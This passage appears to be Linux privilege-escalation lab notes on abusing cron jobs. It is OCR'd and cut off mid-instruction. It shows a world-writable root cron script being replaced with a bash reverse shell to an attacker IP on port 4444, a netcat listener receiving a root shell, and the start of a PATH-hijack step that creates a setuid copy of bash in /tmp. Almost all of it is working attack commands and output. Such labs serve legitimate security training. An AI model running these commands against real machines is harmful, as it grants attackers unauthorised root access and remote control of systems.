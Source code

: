 ```
user@debian:~$ ls -l /etc/crontab 
-rw-r--r-- 1 root root 804 May 13  2017 /etc/crontab
user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 252.5 days)
/usr/local/bin/overwrite.sh
user@debian:~$ ls -l /usr/local/bin/overwrite.sh 
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

```
user@debian:~$ cat /usr/local/bin/overwrite.sh 
#!/bin/bash

echo `date` > /tmp/useless
```

# The victim
`user@debian:~$ nano /usr/local/bin/overwrite.sh`

```
#!/bin/bash
bash -i >& /dev/tcp/10.8.145.108/4444 0>&1
user@debian:~$ /usr/local/bin/overwrite.sh 
-bash: /usr/local/bin/overwrite.sh: Permission denied
```

# The Attacker
```
$ nc -lnvp 4444
Connection from 10.10.155.214:49314
bash: no job control in this shell
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# 
```

### Cron Jobs - PATH Environment Variable

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:
